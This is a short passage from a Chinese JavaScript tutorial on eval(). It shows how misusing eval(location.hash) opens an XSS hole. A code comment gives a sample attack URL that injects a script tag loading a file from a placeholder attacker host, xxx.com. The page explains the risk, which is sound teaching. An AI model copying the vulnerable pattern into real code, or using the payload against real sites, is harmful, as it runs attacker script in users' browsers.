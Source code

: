 **CodePen：** [JavaScript 使用 window.eval() 函数](https://codepen.io/avincheng/pen/ZEWxvVp)

使用 `eval()` 不当引发 XSS 攻击：

```js
/**
 * 包含下面使用 eval() 不当的代码的网页地址为 'http://abc.com'，
 * 攻击者恶意代码文件地址为 'http://xxx.com/xss.js'，
 * 包含攻击代码的 URL 为 'http://abc.com#document.write("<script/src=//http://xxx.com/xss.js></script>")',
 * 当用户访问了包含攻击代码的 URL 时，会在用户浏览器执行包含恶意代码的 'http://xxx.com/xss.js' 文件。
 */
eval(location.hash.substr(1));
```

## [参考文献](https://zhida.zhihu.com/search?q=%E5%8F%82%E8%80%83%E6%96%87%E7%8C%AE&zhida_source=entity&is_preview=1)

-   [eval()](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/eval)
-   [Eval：执行代码字符串](https://zh.javascript.info/eval)
-   《你不知道的 JavaScript》